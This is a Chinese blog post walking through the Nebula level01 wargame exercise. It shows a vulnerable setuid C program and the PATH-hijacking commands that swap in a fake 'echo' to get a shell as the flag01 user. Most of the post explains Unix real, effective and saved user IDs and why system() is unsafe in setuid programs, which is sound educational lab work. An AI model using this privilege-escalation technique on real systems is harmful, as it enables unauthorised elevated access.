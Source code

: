 ```yaml
---
layout: post
title: "关于exploit exercise nebula level01"
date: 2012-10-10 23:26
comments: true
categories: linux
tags: linux security programming
---
```



今天做[exploit exercise](http://exploit-exercises.com/)的nebula [level01](http://exploit-exercises.com/nebula/level01)，长见识了，记录一下。

## 题目

题目提供了/home/flag01/下flag01的源码：

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
        gid_t gid;
        uid_t uid;
        gid = getegid();
        uid = geteuid();

        setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);

        system("/usr/bin/env echo and now what?");
    }

flag01的权限：

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

flag01的uid是用户flag01,gid是level01,suid位被使能了

<!-- more -->

**解决方法**网上都有：

    $ export PATH=/tmp:$PATH    # 把/tmp加到环境变量PATH的最前头
    $ cat "/bin/bash" >> /tmp/echo # 在/tmp创建一个echo文件，里面是执行bash
    $ chmod +x /tmp/echo # 把/tmp/echo设为执行文件
    $ /home/flag01/flag01 # 执行/home/flag01下的flag01
    
    # 顺利以用户flag01起bash
    $ getflag # 通关


## 原理

主要原理网上的解法都说得很明白，就是通过env使得执行的echo是我们创建的假echo，成功以用户flag01的权限起bash

我想记录的主要是前面关于uid,gid的操作。

**为什么system之前会有getegid,setresgid这些操作呢？没有会怎样？这还会成功吗？**

答案是不行的！在[stackoverflow](http://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)找到解答:

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to setresuid() before the call to system() in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to setresuid() the shell run by system() would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, system() call alone is enough.
> 
> man page of sh:
> 
> If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS variable, if it appears in the environment, is ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

## real user ID, effective user ID，saved set-user-ID, set-user-ID bit

首先明确什么是real user ID, effective user ID，saved set-user-ID, set-user-ID bit

- real user ID 就是起进程的用户ID。
- effective user ID是进程的有效用户ID，决定这个进程对文件系统操作的权限。如果它是root，那这个进程的操作就是以root的权限了。
- set-user-id bit是程序的一个特征位，默认不使能，可以通过chmod +s 设置。当set-user-id被使能时，此程序叫SUID程序，程序启动时进程的effective user ID就是这个程序的uid；当set-user-id没被使能，则effective user ID是执行者real user ID。
- saved set-user-ID保存着进程启动时effective user ID的值。

因为进程内可以通过setuid等来设置effective user ID，也就改变了进程对文件系统操作的权限。但这不是可以随便设为任意的id的。

- 如果进程有管理员权限，则setuid可以把effective user ID设为任意id.
- 如果进程没有管理员权限，则setuid只能把effective user ID设为real user ID或者saved set-user-id。

这就知道saved set-user-ID有什么用了。它就是当程序是SUID程序时，effective user ID可以被设为real user ID和程序启动时的effective user ID，saved set-user-ID就是用来保存这个程序启动时effective user ID的值的，使得setuid可以把effective user ID可以从real user ID设回来。

## bash 

然后就是起bash时，如果effective user ID跟real user ID不同，且real user ID不是管理员权限用户，则会把effective user ID设回real user ID。

而我们这样如果没有setresgid,setresuid的话，real user ID是level01, effective user ID是flag01, 起bash时，effective user ID会被设回real user ID，那还只是以level01起bash，而不是flag01起bash了。


## system()的安全问题

在这里也可以看到system()是有安全问题的，因为system()里面是fork完就直接调用execl，使得继承了父进程的effective user ID的子进程执行新的程序。

APUE也说了:

> If it is running with special permissions--eithere set-user-ID or set-group-ID--and wants to spawn another process, a process should use fork() and exec() directly, being certain to change back to normal permissions after the fork(), before calling exec(). The system() function should never be used from a set-user-ID or a set-groupd-ID program.

意思在SUID程序中，不应该用system()，而是自己写fork()和exec()来实现，并在fork和exec中间，自己处理好id权限问题。

## 结语

之前看APUE，用户id这里看得一头雾水，通过这个exercise，总算有点感觉了。
